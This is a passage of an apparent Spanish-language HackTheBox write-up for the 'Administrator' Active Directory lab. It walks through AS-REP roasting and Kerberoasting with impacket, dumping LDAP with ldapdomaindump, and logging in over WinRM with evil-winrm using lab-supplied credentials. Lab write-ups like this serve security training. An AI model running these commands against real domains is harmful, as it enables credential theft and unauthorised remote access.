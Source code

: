 Comprobamos que no obtenemos ningún TGT debido que ningun usuario dispone del atributo (DONT\_REQ\_PREAUTH) de Kerberos.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt administrator.htb/ 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/2516_vmware_EmkbbTEAo8.png" alt=""><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs) <a href="#kerberoasting-attack-getuserspns" id="kerberoasting-attack-getuserspns"></a>

Dado que tenemos credenciales de un usuario válido del dominio, procederemos a realizar un **Kerberoasting Attack** para intentar obtener un TGS (Ticket Granting Service) para posteriormente crackear de manera offline el hash obtenido.

En este caso, comprobamos que no encontramos a ningún usuario kerberosteable.

```bash
impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/Olivia -request 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/2517_vmware_ktQ0EkCqBy.png" alt=""><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Con **ldapdomaindump** dumpearemos toda la información del LDAP a través del usuario y contraseña que disponemos. Nos generará los resultados en distintos formatos.

```bash
ldapdomaindump -u 'administrator.htb\Olivia' -p 'ichliebedich' 10.10.11.42 -o ldap
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario que disponemos forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

<figure><img src="../../../.gitbook/assets/2518_vmware_q1EDJinRJG.png" alt=""><figcaption></figcaption></figure>

## Abusing WinRM

Procederemos a acceder al WinRM a través de **evil-winrm** con el usuario que nos proporciona _HackTheBox_ y hemos comprobado que forma parte del grupo "Remote Management Users".

```bash
netexec winrm 10.10.11.42 -u 'Olivia' -p 'ichliebedich'

evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
```

<figure><img src="../../../.gitbook/assets/2519_vmware_RDDnp2FjXO (1).png" alt=""><figcaption></figcaption></figure>
